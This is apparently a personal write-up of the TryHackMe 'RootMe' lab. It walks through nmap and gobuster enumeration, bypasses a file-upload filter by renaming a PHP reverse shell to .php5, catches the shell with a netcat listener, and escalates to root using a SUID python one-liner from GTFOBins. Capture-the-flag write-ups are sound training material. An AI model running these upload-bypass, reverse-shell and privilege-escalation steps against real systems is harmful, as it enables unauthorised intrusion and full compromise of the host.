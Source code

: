 ```yaml
---
title: "RootMe writeup - Tryhackme"
date: 2025-01-27
draft: false
Tags:
- Tryhackme
---
```

![alt text](image-1.png)
 in this challenge we have to perform enumeration to get shell and escalate the root privilege.let's deploy the machine.

I started network scanning with nmap to see what services are running on the machine.i used 
``nmap -sVC <ipaddress> > nmapscan.txt`` command to write the output in nmapscan.txt file for safety of information.

this is what i got in nmap scan :

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 14:30 +0545
Nmap scan report for 10.10.24.36
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.13 seconds

```
We can see two ports, port 22 and port 80 are running ssh and http services respectively. I visit on port 80 to see what's running on the web server.

![alt text](image-2.png)

second step , we are going to use gobuster for the directory busting to find the directories on the web server.
```
┌──(cybercena㉿astra)-[~/tryhackme/rootme]
└─$ gobuster dir -u http://10.10.107.17:80 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.107.17:80
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.107.17/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.107.17/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.107.17/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.107.17/panel/]

```
i visit the ``/panel`` directory and got the file uploading options.
![alt text](image-3.png)

i try to upload the php PentestMonkey reverse shell payload from ``revshells.com`` but the site doesn't allow the file with ``.php`` so i change file extension to ``.php5`` and it allow me to upload it.
![alt text](image-5.png)
after successfull upload of the payload i run netcat on my machine to listen the shell using ``nc -lnvp 1234``.

![alt text](image-6.png)
![alt text](image-7.png)
after uploading ``rev.php5`` payload and listen using netcat on my machine i visit ``/uploads/rev.php5`` i got the shell.let's have a linux tour now.
![alt text](image-8.png)

we have to find ``user.txt`` file but we don't know where it locate so i tried `` find / - type f -name user.txt`` and got the user.txt file inside ``/var/www/``.
![alt text](image-9.png)
i read the user.txt file using ``cat /var/www/user.txt`` and got the user flag.
![alt text](image-10.png)

now we have to escalate the root privilege.even the question have suggest us to search for files with SUID permission.``find / -type f -user root -perm -4000 2>/dev/null`` commands helps us to find it. 
![alt text](image-11.png)
we can use python for pri-esc let's visit https://gtfobins.github.io/ and search python we can see the functions that python can run.
![alt text](image-12.png)

lets paste this command into the shell and run it. we got the root shell.
```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
we got the shell lets check the username using ``whomai`` command.
![alt text](image-13.png)
now we are root and the flag lies in ``/root/root.txt``
![alt text](image-14.png)

[Note : other small questions can be answered using the scan result of nmap and gobuster that we have done before]